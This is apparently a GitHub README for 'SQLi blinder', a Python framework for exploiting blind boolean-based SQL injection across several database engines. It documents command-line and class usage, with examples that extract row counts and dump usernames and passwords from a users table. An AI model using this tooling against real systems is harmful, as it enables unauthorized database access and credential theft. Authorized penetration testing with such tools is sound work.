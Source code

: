 # SQLi blinder

Framework for blind boolean-based sql injections explotation. Use it if sqlmap does shit. 

Support:
- MySQL
- MSSQL
- SQLite
- Oracle
- PostgreSQL

Requires Python 3.x.

There are no dependencies, just `pip install requests` for example `request_func`, or `pip install aiohttp` for async example.

## Usage

You could use sqlib.py console utility or do your own script by importing `sqli_blinder.SQLiBlinder`, but both cases requires you to create your own `request_func`.

### Prepare request_func

The `request_func` must paste single input param to your SQL injection and issue request.
It must return `True` for input param `1=1` and `False` for input param `1=0`.

It's OK to throw on unexpected behavior.

Example presented in `sqlib.py`.

Check your `request_func` with:

```python
SQLiBlinder(request_func,dbms).check()
```

If you want to use sqlib.py - replace `request_func` with your own.

### Async version of request_func

Limitation of standart version is that it works sequentially. Multithreading is applied only for string chars search. When string is found, it use single thread to determine length of next string and etc.

Async allows make more task simultaniously, so it is supposed to be faster.

But it require you to make async `request_func`. You could use one of python HTTP async clients such as `aiohttp` or [make requests async](https://stackoverflow.com/questions/22190403/how-could-i-use-requests-in-asyncio).

You can find example of async `request_func` in sqlib_async.py.

### Run sqlib.py

sqlib_async.py use same syntax.

```
usage: sqlib.py [-h] [-t TABLE] [-c COLUMN] [-w WHERE] [-i INDEX]
                [--threads THREADS] --dbms {mysql,mssql,sqlite,oracle,postgre}
                {check,count,one,get}

positional arguments:
  {check,count,one,get}
                        mode - one of ['check','count','one','get']

optional arguments:
  -h, --help            show this help message and exit
  -t TABLE, --table TABLE
                        table nmae
  -c COLUMN, --column COLUMN
                        column names. For get mode could by comma separated array of columns
  -w WHERE, --where WHERE
                        where clause
  -i INDEX, --index INDEX
                        index of row
  --threads THREADS     number of threads
  --dbms {mysql,mssql,sqlite,oracle} DBMS
  --order-by ORDER_BY   order by column name or index
  -s, --silent          not print output during retrieving
```

Examples:

Check `request_func`:
`python sqlib.py check` 

Get count of rows in `sqlite_master` table (like `SELECT count(*) FROM sqlite_master`):
`python sqlib.py count -t sqlite_master --dbms sqlite`

Get number of rows in `users` table where `username`=`admin` (like`SELECT count(*) FROM users WHERE username='admin'`):
`python sqlib.py count -t users --dbms sqlite --where "username='admin'"`

Get value of `password` column in `users` table with index `1` (like `SELECT password FROM users offset 1 limit 1`)
`python sqlib.py one -t users -c password -i 1 --dbms sqlite`

Get all `username` and `password` from `users` table (like `SELECT username,password FROM users`)
`python sqlib.py get -t users -c username,password --dbms sqlite` 

### SQLiBlinder class

Intended public methods:

- `check()` - check provided `request_func` with `1=1` and `1=0` payloads

- `get_count(table_name,where=None)` - get count of rows in `table` with provided `where` clause

- `get_string(table,column,index,where=None)` - get value of `column` in `table` with index=`index`. `where` is optional

- `get(columns,table_name,where=None)` - get all columns in `columns` from `table` where `where`

examples:

```python
sqlib = SQLiBlinder(request_func,'sqlite',multithreaded=True,threads=16)
sqlib.check() # True
sqlib.get_count('sqlite_master') # number of rows in sqlite_master
sqlib.get_string('sqlite_master','sql',1,) # code of first table
sqlib.get(['username','password'],'users') # all usernames and passwords
sqlib.get(['username','password'],'users',where="username='admin'") # admins username and password
```
